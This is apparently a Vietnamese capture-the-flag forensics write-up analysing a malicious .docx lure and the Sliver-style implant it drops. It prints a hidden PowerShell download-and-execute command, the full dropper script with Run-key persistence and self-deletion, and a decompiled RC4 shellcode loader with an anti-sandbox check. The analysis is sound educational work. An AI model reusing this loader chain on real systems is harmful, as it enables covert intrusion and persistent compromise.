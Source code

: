 # _Silver Moon_ _(Forensics)_

![image](image/1.png)

Ban đầu mình nhận được một yêu cầu chạy trực tiếp 1 file `.docx` thông qua đường link trong `File Explorer`

![image](image/2.png)

Thực hiện theo yêu cầu, thì thấy file kích hoạt `powershell` nháy phát rồi tắt. Mình đoán nó đã thực thi thứ gì đó trên máy mình, nên mình sẽ thực hiện check trong `Event Viewer` cụ thể là ở log `Sysmon` hoặc `Powershell` xem có gì đáng ngờ không

![image](image/3.png)

Thấy được một `Process create` kích hoạt `powershell` với câu lệnh sau

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden IEX(New-ObjEct System.Net.Webclient).Downloadstring('https://powershell.wwctf.com/update.ps1') # C:\HR\Application.docx
```

Dễ dàng thấy đoạn mã trên thực hiện tải và chạy mã độc từ `Internet` bằng `PowerShell`, trong chế độ ẩn và bỏ qua bảo mật. Mình liền lấy đường link ra truy cập thử và có được nội dung sau

```powershell
$SAlaAox = $kXVWlUwNPEw
$hLXHNNQnb = [Convert]::FromBase64String($SAlaAox)
$geMBPeaVORuLk = [System.Text.Encoding]::UTF8.GetString($hLXHNNQnb)
$geMBPeaVORuLk = ConvertFrom-Json $geMBPeaVORuLk

$ZhWOQbu = 'J1Csum3Dcj'
$ALMVCnyJSuzBnE = Join-Path $env:USERPROFILE (('DocumentsG1tJ1Csum3Dcj') -creplace 'G1t','\')

if (-not (Test-Path $ALMVCnyJSuzBnE)) {
    New-Item -ItemType Directory -Path $ALMVCnyJSuzBnE | Out-Null
    (Get-Item $ALMVCnyJSuzBnE).Attributes += 'Hidden','System'
}

foreach ($file in $geMBPeaVORuLk.aixrdrPVmiaT) {
    $p = Join-Path $ALMVCnyJSuzBnE $file.bHSoyPyFwZgB
    [IO.File]::WriteAllBytes($p, [Convert]::FromBase64String($file.PthYIs))
}

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

$EHPoSQvgWxy = [IO.Path]::ChangeExtension([IO.Path]::GetTempFileName(), 'cmd')
[IO.File]::WriteAllText($EHPoSQvgWxy, (
    '@echo off
    start "" /b "%USERPROFILE%\Documents\J1Csum3Dcj\update.exe"
    del "%~f0"'
))

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

Set-ItemProperty -Path ('HKCU:\Software\Microsoft\Windows\CurrentVersion\Run') `
    -Name 'lAoprv' `
    -Value "$env:USERPROFILE\Documents\J1Csum3Dcj\update.exe"

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

$ws = New-Object -ComObject WScript.Shell
$ws.Run($EHPoSQvgWxy, 0, $false)

Remove-Item $MyInvocation.MyCommand.Path -Force
```
- Đầu tiên thực hiện decode b64 hàm `kXVWlUwNPEw` ghi ra file `update.exe`
- Thực thi file, ẩn file
- Thiết lập cơ chế `persistance`: `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\lAoprv = update.exe path`. Mình có thể thấy sự xuất hiện của hoạt động này trong `autoruns` ~~Disable ngay nha~~              ![image](image/5.png)
- File `update.exe` được lưu tại `USERPROFILE\Documents\J1Csum3Dcj\`

Mình bắt đầu thực hiện việc `debug` tĩnh malware và đây là hàm `main`

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int ticks; // ebx
  int v4; // ebx
  __m128i si128; // xmm2
  char *v6; // rdx
  __m128 v7; // xmm3
  unsigned int v8; // ecx
  unsigned int v9; // eax
  __m128i v10; // xmm0
  __m128i v11; // xmm1
  __m128i v12; // xmm0
  __m128i v13; // xmm1
  __m128i v14; // xmm0
  __m128i v15; // xmm0
  __m128i v16; // xmm0
  __m128i v17; // xmm1
  __m128i v18; // xmm1
  unsigned __int8 v19; // r8
  char *v20; // r10
  int v21; // r9d
  char v22; // r11
  unsigned __int8 v23; // di
  __int64 i; // r11
  char v25; // r10
  __int64 v27; // [rsp+20h] [rbp-128h] BYREF
  _BYTE v28[4]; // [rsp+30h] [rbp-118h] BYREF
  char v29; // [rsp+34h] [rbp-114h] BYREF
  DWORD flOldProtect; // [rsp+130h] [rbp-18h] BYREF

  v27 = 5;
  ticks = Xtime_get_ticks();
  sub_140001320(&v27);
  if ( (double)(int)(Xtime_get_ticks() - ticks) / 10000000.0 <= 4.5 )
    exit(0);
  v4 = 0;
  flOldProtect = 0;
  if ( !VirtualProtect(&loc_140001520, 0xA82EDCu, 0x40u, &flOldProtect) )
  {
    GetLastError();
    sub_140001010("Error: %d");
  }
  si128 = _mm_load_si128((const __m128i *)&xmmword_140A862C0);
  v6 = &v29;
  v7 = (__m128)_mm_load_si128((const __m128i *)&xmmword_140A862D0);
  v8 = 8;
  do
  {
    v6 += 16;
    v9 = v8 + 4;
    v10 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v8 - 8), 0), si128), v7);
    v11 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v8 - 4), 0), si128), v7);
    v12 = _mm_packus_epi16(v10, v10);
    v13 = _mm_packus_epi16(v11, v11);
    *((_DWORD *)v6 - 5) = _mm_cvtsi128_si32(_mm_packus_epi16(v12, v12));
    *((_DWORD *)v6 - 4) = _mm_cvtsi128_si32(_mm_packus_epi16(v13, v13));
    v14 = _mm_cvtsi32_si128(v8);
    v8 += 16;
    v15 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(v14, 0), si128), v7);
    v16 = _mm_packus_epi16(v15, v15);
    v17 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v9), 0), si128), v7);
    *((_DWORD *)v6 - 3) = _mm_cvtsi128_si32(_mm_packus_epi16(v16, v16));
    v18 = _mm_packus_epi16(v17, v17);
    *((_DWORD *)v6 - 2) = _mm_cvtsi128_si32(_mm_packus_epi16(v18, v18));
  }
  while ( (int)(v8 - 8) < 256 );
  v19 = 0;
  v20 = v28;
  v21 = 0;
  do
  {
    v22 = *v20;
    v19 += *v20 + aAdvapi32Dll[v21++ % 0xCu];
    *v20++ = v28[v19];
    v28[v19] = v22;
  }
  while ( v21 < 256 );
  v23 = 0;
  for ( i = 0; i < 11022044; ++i )
  {
    v4 = (v4 + 1) % 256;
    v25 = v28[v4];
    v23 += v25;
    v28[v4] = v28[v23];
    v28[v23] = v25;
    *((_BYTE *)&loc_140001520 + i) ^= v28[(unsigned __int8)(v25 + v28[v4])];
  }
  VirtualProtect(&loc_140001520, 0xA82EDCu, flOldProtect, &flOldProtect);
  ((void (*)(void))loc_140001520)();
  return 0;
}
```
- Thấy được đây là một con `malware` có dấu hiệu của việc chống `sandbox\debug`. Sau đó cấp quyền `read/write/excecute` cho vùng nhớ `loc_140001520` bằng `VirtualProtect`

![image](image/13.png)
- Dùng thuật toán key scheduling kiểu RC4 để sinh S-box với `key` là `advapi32.dll`![image](image/14.png)
- Dùng `RC4 key stream` thực hiện `xor` với `loc_140001520`

Xác định vùng nhớ `loc_140001520` ban đầu:

![image](image/15.png)

Tiến hành debug bằng cách đặt `breakpoint` sau vòng `for` tức là vùng `loc_140001520` được `decrypt` xong

![image](image/10.png)

Chạy xong thấy vùng `loc_140001520` đã bị thay đổi so với ban đầu.

![image](image/16.png)

Chuyển sang chế độ `hex dump` để xem, mình thấy sự xuất hiện của 1 file thực thi khác tại đây nên khả năng cao là shellcode đã được `decrypt` đúng

![image](image/17.png)

Mình tiến hàng dump vùng này về bằng tay. Vì dump bằng tay nên khả năng cao file sẽ bị thiếu hoặc kh được chuẩn (mình cũng kh biết nữa vì trình `reverse` mà động đến `debug` như này mình khá kém)

![image](image/18.png)

Đến đây mình vứt vào `IDA` và sau đó là kh biết làm gì tiếp theo, nên mình tiến hành chạy thử trong `VM` nhưng kh chạy được (chắc do mình dump thiếu)

![image](image/19.png)

Vì kh biết làm gì tiếp nên mình thử strings bừa thì thấy được 1 số dữ kiện quan trọng

![image](image/20.png)

Cụ thể hơn thì đây khả năng là danh sách các tên `file/source` được nhúng trong `.rdata` section của một binary được build từ `GO`. Điều này rất thường thấy ở `malware` được viết bằng GO, nhất là các `implant` từ `Silver C2`. Vì liên quan đến `Silver C2` nên mình tiến hành check thử một số kí tự đặc trưng như `http`

![image](image/21.png)

Thấy được 1 đường link `https://192.168.75.130?flag=d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=`, tiến hành decode b64 ta nhận được flag

FLAG: `wwf{f1l3f1x_t0_sl1v3r_b34c0n}`

